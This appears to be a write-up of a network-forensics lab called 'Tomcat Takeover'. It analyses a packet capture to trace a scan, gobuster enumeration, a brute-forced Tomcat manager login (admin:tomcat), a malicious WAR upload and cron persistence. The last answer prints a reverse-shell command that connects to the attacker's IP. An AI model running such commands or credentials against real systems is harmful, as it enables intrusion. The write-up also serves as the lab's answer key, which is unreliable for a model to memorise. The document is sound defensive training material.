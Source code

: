 > # Tomcat Takeover

## Summary
- [Summary](#summary)
  - [Q1. Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?](#q1-given-the-suspicious-activity-detected-on-the-web-server-the-pcap-analysis-shows-a-series-of-requests-across-various-ports-suggesting-a-potential-scanning-behavior-can-you-identify-the-source-ip-address-responsible-for-initiating-these-requests-on-our-server)
  - [Q2. Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?](#q2-based-on-the-identified-ip-address-associated-with-the-attacker-can-you-ascertain-the-city-from-which-the-attackers-activities-originated)
  - [Q3. From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?](#q3-from-the-pcap-analysis-multiple-open-ports-were-detected-as-a-result-of-the-attackers-activitie-scan-which-of-these-ports-provides-access-to-the-web-server-admin-panel)
  - [Q4. Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?](#q4-following-the-discovery-of-open-ports-on-our-server-it-appears-that-the-attacker-attempted-to-enumerate-and-uncover-directories-and-files-on-our-web-server-which-tools-can-you-identify-from-the-analysis-that-assisted-the-attacker-in-this-enumeration-process)
  - [Q5. Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?](#q5-subsequent-to-their-efforts-to-enumerate-directories-on-our-web-server-the-attacker-made-numerous-requests-trying-to-identify-administrative-interfaces-which-specific-directory-associated-with-the-admin-panel-was-the-attacker-able-to-uncover)
  - [Q6. Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?](#q6-upon-accessing-the-admin-panel-the-attacker-made-attempts-to-brute-force-the-login-credentials-from-the-data-can-you-identify-the-correct-username-and-password-combination-that-the-attacker-successfully-used-for-authorization)
  - [Q7. Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?](#q7-once-inside-the-admin-panel-the-attacker-attempted-to-upload-a-file-with-the-intent-of-establishing-a-reverse-shell-can-you-identify-the-name-of-this-malicious-file-from-the-captured-data)
  - [Q8. Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?](#q8-upon-successfully-establishing-a-reverse-shell-on-our-server-the-attacker-aimed-to-ensure-persistence-on-the-compromised-machine-from-the-analysis-can-you-determine-the-specific-command-they-are-scheduled-to-run-to-maintain-their-presence)

### Q1. Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?
Go to `Statistics > Conversations` and select the `TCP` tab, then sort port B. You will the IP address that perform network scanning.<br>
![](images/1.png)<br>
**Answer:** 14.0.0.120

### Q2. Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?
Use [IP2Location](https://ip2location.com) to find the city of the attacker.<br>
![](images/2.png)<br>
**Answer:** Guangzhou

### Q3. From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?
The web server admin panel of Apache Tom cat is `/manager`, so we need find the request to this URI.<br>
![](images/3.png)<br>
The URI that need to find at port 8080.<br>
**Answer:** 8080

### Q4. Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?
If the attacker attemps to discovery hidden directory on the server, the server will return multiple response with status code 404, so we will filter this to find the User-Agent sent from the attacker.<br>
![](images/4.png)<br>
The tool was used by the attacker is `gobuster`.<br>
**Answer:** gobuster

### Q5. Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?
From the Q3.<br>
**Answer:** /manager

### Q6. Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?
If you try to filter `POST` request, there is only one request, so it maybe authen via http prompt popup.<br>
Go to `Analysis -> Expert Information`, you will see there are multiple request that have respone with Unauthorization and the last is 200 OK. Go to packet 20553.<br>
![](images/5.png)<br>
Decode the value in `Authorization` field.<br>
![](images/6.png)<br>
**Answer:** admin:tomcat

### Q7. Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?
Filter POST request, you will see the filename of attacker's file.<br>
![](images/7.png)<br>
**Answer:** JXQOZY.war

### Q8. Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?
The attacker create cronjob to run the below command on the webserver.<br>
![](images/8.png)<br>
**Answer:** /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
